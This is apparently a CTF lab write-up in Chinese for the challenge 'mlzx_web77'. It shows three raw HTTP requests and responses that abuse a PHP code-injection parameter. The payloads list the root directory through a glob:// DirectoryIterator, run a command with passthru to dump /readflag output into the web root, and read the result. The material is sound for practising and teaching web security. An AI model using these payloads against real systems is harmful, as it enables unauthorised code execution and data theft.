



# mlzx_web77

> [!NOTE]
>
> [`GZCTF-challenges/mlzx/mlzx_web77`](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/mlzx/mlzx_web77)

1. 获取根目录信息

   请求包

   ```http
   POST / HTTP/1.1
   Host: IP:PORT
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 31
   
   c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().',');}exit(0);?>
   ```

   响应包

   ```http
   HTTP/1.1 200 OK
   Server: nginx/1.18.0
   Date: Tue, 09 Dec 2025 09:04:47 GMT
   Content-Type: text/html; charset=UTF-8
   Connection: keep-alive
   Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
   Access-Control-Allow-Credentials: true
   Access-Control-Expose-Headers: Content-Type,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization,x-auth-token,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Max-Age: 1728000
   Content-Length: 98
   
   bin,dev,entrypoint.sh,etc,home,lib,media,mnt,opt,proc,readflag,root,run,sbin,srv,sys,tmp,usr,var,
   ```

2. 调用 `readflag` 输出 `flag`

   请求包

   ```http
   POST / HTTP/1.1
   Host: IP:PORT
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 31
   
   c=passthru('/readflag > /var/www/html/flag.txt');exit;
   ```

   响应包

   ```http
   HTTP/1.1 200 OK
   Server: nginx/1.18.0
   Date: Tue, 09 Dec 2025 09:04:52 GMT
   Content-Type: text/html; charset=UTF-8
   Connection: keep-alive
   Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
   Access-Control-Allow-Credentials: true
   Access-Control-Expose-Headers: Content-Type,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization,x-auth-token,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Max-Age: 1728000
   
   ```

3. 访问存放 `flag` 的文件

   请求包

   ```http
   POST / HTTP/1.1
   Host: IP:PORT
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 31
   
   c=readgzfile("flag.txt");exit;
   ```

   响应包

   ```http
   HTTP/1.1 200 OK
   Server: nginx/1.18.0
   Date: Tue, 09 Dec 2025 09:26:53 GMT
   Content-Type: text/html; charset=UTF-8
   Connection: keep-alive
   Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
   Access-Control-Allow-Credentials: true
   Access-Control-Expose-Headers: Content-Type,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Allow-Headers: DNT,X-CustomHeader,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization,x-auth-token,Cookies,Aaa,Date,Server,Content-Length,Connection
   Access-Control-Max-Age: 1728000
   Content-Length: 31
   
   flag{GZCTF_dynamic_flag_test}}
   ```

------





